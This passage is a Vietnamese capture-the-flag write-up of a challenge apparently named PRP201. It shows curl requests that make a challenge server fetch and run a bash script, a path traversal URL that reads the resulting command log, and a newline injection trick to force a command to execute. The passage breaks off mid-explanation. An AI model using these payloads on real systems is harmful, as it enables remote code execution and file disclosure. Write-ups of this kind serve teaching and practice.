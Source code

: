       - `script_bash` là tên file được thực thi bới lệnh `bash`, có nội dung được nhập từ nôi dung file trên `url` của JSON truyền vào

      - `command_log` chính là file log của `stdout` và `stderr`, như vậy khi thực thi, output và thông báo lỗi của `bash` đều sẽ đẩy vào file log đó, và tất nhiên, ta có thể xem file log đó qua path traversal

- Đến đây thì mình (và tin chắc ai đó khi xem WU này), chắc hẳn đều đã nghĩ ra rồi, tác giả cũng đã ra hint `suprocess.Popen(), stderr, stdout là gì?` rồi :v

- Mình thử luôn nhé :v Như ở trên ta đã có JSON bao gồm `dir`, `name`, `command_log`, `url`

- URL để nhận file JSON là `http://139.180.208.121:8001/runScript`, để gửi JSON lên thì mình sử dụng `curl` như sau:

    ```bash
        curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{json}'
    ```

- Mình sẽ thử tạo một JSON như sau:

    ```json
        {
            "dir" : "test",
            "name" : "ls",
            "command_log" : "log",
            "url" : "http://localhost:8888/"
        }
    ```

- Ghép lại với `curl`:

    ```shell
        curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "test", "name" : "ls", "command_log" : "log", "url" : "http://localhost:8888/"}'
    ```

- Và sau khi gửi, truy cập vào `http://139.180.208.121:8001/getData?f=/fus/data/../logs/log.txt` để xem kết quả của câu lệnh là gì (ta biết `logs` cùng chung thư mục cha với `data` khi xem code):

    ![curl](img/PRP201_2.png)

    ![log.txt](img/PRP201_3.png)

- Có thể thấy rằng, nội dung file chính`log.txt` chính là biến `script_path` được ra thêm cả `response` của `index()`, chúng trên một dòng nên sẽ bị lỗi, thử đổi `ls` thành `\nls\n` ở JSON và gửi lên, sẽ thấy sự khác biệt:

